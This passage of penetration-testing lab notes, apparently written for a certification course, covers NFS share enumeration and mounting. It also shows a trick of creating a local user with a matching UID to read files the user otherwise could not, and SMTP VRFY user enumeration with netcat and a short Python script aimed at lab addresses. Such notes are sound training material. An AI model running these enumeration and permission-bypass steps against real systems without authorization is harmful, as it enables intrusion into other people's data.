 `nmap -p 111 --script nfs* 10.11.1.72`

Find an open share? Mount it!
`mkdir home
sudo mount -o nolock 10.11.1.72:/home ~/home/
cd home/ && ls`

Say there are files that you can't access as you are not the right user? Make a right user!

`ls -la` Get UUID.
```bash
sudo adduser pwn
sudo sed -i -e 's/1001/1014/g' /etc/passwd 
cat /etc/passwd | grep pwn
su pwn
id
```

# SMTP Enumeration

The Simple Mail Transport Protocol (SMTP)1 supports several interesting commands, such as VRFY and EXPN. A VRFY request asks the server to verify an email address, while EXPN asks the server for the membership of a mailing list. These can often be abused to verify existing users on a mail server, which is useful information during a penetration test. Consider this example:
```bash
nc -nv 10.11.1.217 25
(UNKNOWN) [10.11.1.217] 25 (smtp) open
220 hotline.localdomain ESMTP Postfix
VRFY root
252 2.0.0 root
VRFY idontexist
550 5.1.1 <idontexist>: Recipient address rejected: User unknown in local recipient table
```

Notice how the success and error messages differ. The SMTP server happily verifies that the user exists. This procedure can be used to help guess valid usernames in an automated fashion. Consider the following Python script that opens a TCP socket, connects to the SMTP server, and issues a VRFY command for a given username:
```python
#!/usr/bin/python

import socket
import sys

if len(sys.argv) != 2:
        print "Usage: vrfy.py <username>"
        sys.exit(0)

# Create a Socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the Server
connect = s.connect(('10.11.1.217',25))

# Receive the banner
banner = s.recv(1024)

print banner

# VRFY a user
s.send('VRFY ' + sys.argv[1] + '\r\n')
result = s.recv(1024)

print result

# Close the socket
```